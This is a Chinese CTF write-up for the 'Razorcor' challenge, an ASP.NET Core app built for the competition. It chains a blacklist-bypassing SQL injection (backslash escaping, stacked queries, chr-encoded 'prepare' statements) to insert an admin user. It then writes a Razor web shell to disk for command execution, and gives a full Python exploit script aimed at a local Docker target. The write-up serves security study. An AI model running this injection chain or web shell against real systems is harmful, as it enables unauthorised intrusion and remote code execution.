



# 第十八届软件系统安全赛攻防赛半决赛-Razorcor Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/17595  
> **文章ID**: 17595

---

# Razorcor

赛场上没花太多时间看，赛后简单复现一下。

使用 AspNetCore 编写的一个 Web 应用程序，主要功能点有登陆和 Razor 模板渲染（只能指定渲染的文件）。

登陆处 SQL 语句存在字符串拼接：

```
MySqlCommand mySqlCommand = new MySqlCommand("select username from userlist where username='" + username + "'and password='" + password + "'", mySqlConnection);
```

但是同时对 `username` 以及 `password` 有黑名单过滤：

```
private static readonly List<string> BlacklistKeywords = new List<string>()
{
    "select",
    "insert",
    "update",
    "delete",
    "alter",
    "benchmark",
    "or",
    "and",
    "--",
    "'",
    """,
    "/*",
    "*/",
    "set",
    "0x",
    "do",
    "case",
    "when"
    };

public static bool IsSqlInjection(string input)
{
    input = input.ToLower();
    foreach (string blacklistKeyword in HomeController.BlacklistKeywords)
    {
        if (Regex.IsMatch(input, Regex.Escape(blacklistKeyword), RegexOptions.IgnoreCase))
        {
            Console.WriteLine(blacklistKeyword);
            return true;
        }
    }
    return false;
}
```

首先需要整明白解题的思路，`Index` 路由渲染的逻辑如下：

```
public ActionResult Index(string inform)
{
    string str;
    try
    {
        str = SessionExtensions.GetString(((ControllerBase) this).HttpContext.Session, "Username");
    }
    catch (Exception ex)
    {
        str = "";
    }
    if (str != "dartroot")
        return (ActionResult) ((ControllerBase) this).RedirectToAction("Login", "Home");
    if (HomeController.\u003C\u003Eo__1.\u003C\u003Ep__0 == null)
    {
        HomeController.\u003C\u003Eo__1.\u003C\u003Ep__0 = CallSite<Func<CallSite, object, string, object>>.Create(Binder.SetMember(CSharpBinderFlags.None, "RenderedTemplate", typeof (HomeController), (IEnumerable<CSharpArgumentInfo>) new CSharpArgumentInfo[2]
                                                                                                                                    {
                                                                                                                                        CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, (string) null),
                                                                                                                                        CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.UseCompileTimeType | CSharpArgumentInfoFlags.Constant, (string) null)
                                                                                                                                        }));
    }
    object obj = HomeController.\u003C\u003Eo__1.\u003C\u003Ep__0.Target((CallSite) HomeController.\u003C\u003Eo__1.\u003C\u003Ep__0, this.ViewBag, "Hello hacker");
    return (ActionResult) this.View(inform);
}
```

需要以 `dartroot` 用户名登陆进去才能进行渲染，看看给的 Docker 里面数据库的情况：



可以看到是没用 `dartroot` 这个用户的，所以大概率需要我们自己插入一条数据到数据库中，然后再看看数据库的其他配置情况：



可以看到 `secure_file_priv` 指定可读写 `/app` 目录，那么思路就比较清晰了：

* SQL 注入向数据库中写入一个 `dartroot` 用户；
* SQL 注入写恶意模板文件到 `/app/Views` 目录下；
* 登陆 `dartroot` 用户触发模板渲染 RCE。

那么首先需要不使用单引号等对语句进行闭合，因为其执行的 SQL 语句格式如下：

```
select username from userlist where username='username'and password='password'
```

并且过滤了 `'` 等符号，那么这里可以通过 `\` 对 username 后面的单引号进行转义，于是 SQL 语句就会变成：

```
select username from userlist where username='\'and password='password'
```

而 password 也可控，就可以进行 SQL 注入了。

同时程序使用的 `MySqlCommand` 类是可以执行多条语句的：<https://mysqlconnector.net/api/mysqlconnector/mysqlcommand/commandtext/>

那么我们通过 `;` 分隔即可执行多条语句，后续绕过关键词的过滤方法比较多，比如通过 `replace` 关键字可以写入 table，或者通过 `prepare` + hex 编码来绕过执行 SQL 语句都行。

完成 `dartroot` 用户的插入后需要写一个 razor 的模板进行 RCE，这里使用的模板内容如下：

```
@{
    var cmd = Context.Request.Query["cmd"];
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "/bin/bash";
    p.StartInfo.Arguments = $"-c {cmd}";
    p.StartInfo.RedirectStandardOutput = true;
    p.StartInfo.RedirectStandardError = true;
    p.StartInfo.UseShellExecute = false;
    p.StartInfo.CreateNoWindow = true;p.Start();
    var stdout = p.StandardOutput.ReadToEnd().Replace("<", "&lt;").Replace(">", "&gt;");
    var stderr = p.StandardError.ReadToEnd().Replace("<", "&lt;").Replace(">", "&gt;");p.WaitForExit();
}
<pre>@stdout</pre>
<pre style="color: red">@stderr</pre>
```

注入后通过传入 `cmd` 参数即可执行任意命令了。

完整 EXP：

```
import urllib.parse
import requests
import html


def strtochr(string):
    tmp = ",".join(f"chr({ord(i)})" for i in string)
    res = f"concat({tmp})"
    return res


s = requests.Session()
target = "http://127.0.0.1"
resp = s.get(url=target)
assert resp.status_code == 200

username = "\"
password = f";replace into userlist values ({strtochr('dartroot')}, {strtochr('123')});#"
payload = f"username={urllib.parse.quote(username)}&password={urllib.parse.quote(password)}"
resp = s.post(
    url=target + "/Home/Login",
    data=payload,
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)
assert resp.status_code == 200

shell = '@{var cmd = Context.Request.Query["cmd"];System.Diagnostics.Process p = new System.Diagnostics.Process();p.StartInfo.FileName = "/bin/bash";p.StartInfo.Arguments = $"-c {cmd}";p.StartInfo.RedirectStandardOutput = true;p.StartInfo.RedirectStandardError = true;p.StartInfo.UseShellExecute = false;p.StartInfo.CreateNoWindow = true;p.Start();var stdout = p.StandardOutput.ReadToEnd().Replace("<", "&lt;").Replace(">", "&gt;");var stderr = p.StandardError.ReadToEnd().Replace("<", "&lt;").Replace(">", "&gt;");p.WaitForExit();}<pre>@stdout</pre><pre style="color: red">@stderr</pre>'.encode()
write_file = f"select unhex("{shell.hex()}") into outfile "/app/Views/Home/shell.cshtml""
password = f";prepare exp from {strtochr(write_file)};execute exp;#"
payload = f"username={urllib.parse.quote(username)}&password={urllib.parse.quote(password)}"
resp = s.post(
    url=target + "/Home/Login",
    data=payload,
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)
assert resp.status_code == 200

payload = "username=dartroot&password=123"
resp = s.post(
    url=target + "/Home/Login",
    data=payload,
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)
assert resp.status_code == 200

cmd = ""cat /flag""
res = s.get(
    url=target + f"?inform=shell&cmd={cmd}"
).text
print(html.unescape(res[res.index("<pre>")+5:res.index("</pre>")]))
```



> Docker 环境可以通过 zeroc0077/razorcor:latest 获取
